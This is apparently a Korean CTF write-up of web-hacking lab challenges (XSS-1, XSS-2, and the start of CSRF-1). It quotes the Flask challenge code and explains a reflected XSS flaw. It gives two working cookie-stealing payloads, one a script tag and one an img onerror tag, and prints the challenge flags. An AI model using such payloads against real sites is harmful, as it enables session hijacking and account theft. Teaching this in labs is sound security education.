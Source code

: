 ```python
    return True
    
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
    
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'
        return '<script>alert("good");history.go(-1);</script>'
```

GET 방식일 때 이용자에게 URL 을 입력받는 페이지를 제공하는 것을 확인할 수 있습니다
POST 는 params 파라미터 값과 쿠키에 FLAG 를 포함해 check_xss 함수를 호출합니다
check_xss 는 read_url 에 url 과 cookie 를 설정하고 반환해주고 vuln 엔드 포인트에 접속합니다

add_cookie(cookie) 를 통해 쿠키를 추가하고 get(url) 을 통해 접근하는데 이 때 memo 를 사용하여
log 를 남기게 하여 문제를 풀 수 있습니다

vuln 과 memo 엔드 포인트는 이용자의 입력값을 페이지에 출력합니다
memo 는 reder_template 함수를 사용해 memo.html 을 출력합니다

render_template 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기 때문에 XSS 가 발생하지 않습니다

그러나 vuln 은 이용자가 입력한 값을 페이지에 그대로 출력하기 때문에 XSS 가 발생합니다

문제를 해결하기 위해서는 /vuln 엔드 포인트에서 발생하는 취약점을 통해 임의 이용자의 쿠키를 탈취해야 합니다

탈취한 쿠키를 전달받기 위해서는 외부에서 접근 가능한 서버를 사용하거나 문제에서 제공하는 memo 엔드 포인트를 사용할 수 있습니다

- location.href : 전체 URL 을 반환하거나 URL 을 업데이트 할 수 있는 속성입니다
- document.cookie : 해당 페이지에서 사용하는 쿠키를 읽고 쓰는 속성값입니다

flag 엔드 포인트에서 다음과 같은 코드를 입력하면 memo 엔드 포인트에서 임의 이용자의 쿠키 정보를 확인할 수 있습니다

```python
<script>location.href = "/memo?memo=" + document.cookie;</script>
```

> Flag : DH{3c01577e9542ec24d68ba0ffb846508f}

## XSS - 2
```python
<img src=x onerror="location.href='/memo?memo=' + document.cookie">
```

이 문제는 `<script>` 를 필터링하기 때문에 다른 태그를 사용해야 합니다

> Flag : DH{3c01577e9542ec24d68ba0ffb846508f}

## CSRF - 1
```python
@app.route("/vuln") # vuln 페이지 라우팅 (이용자가 /vuln 페이지에 접근시 아래 코드 실행)
def vuln():
    param = request.args.get("param", "").lower()   # 이용자가 입력한 param 파라미터를 소문자로 변경
    xss_filter = ["frame", "script", "on"]  # 세 가지 필터링 키워드
    for _ in xss_filter:
        param = param.replace(_, "*")   # 이용자가 입력한 값 중에 필터링 키워드가 있는 경우, '*'로 치환
    return param    # 이용자의 입력 값을 화면 상에 표시
```
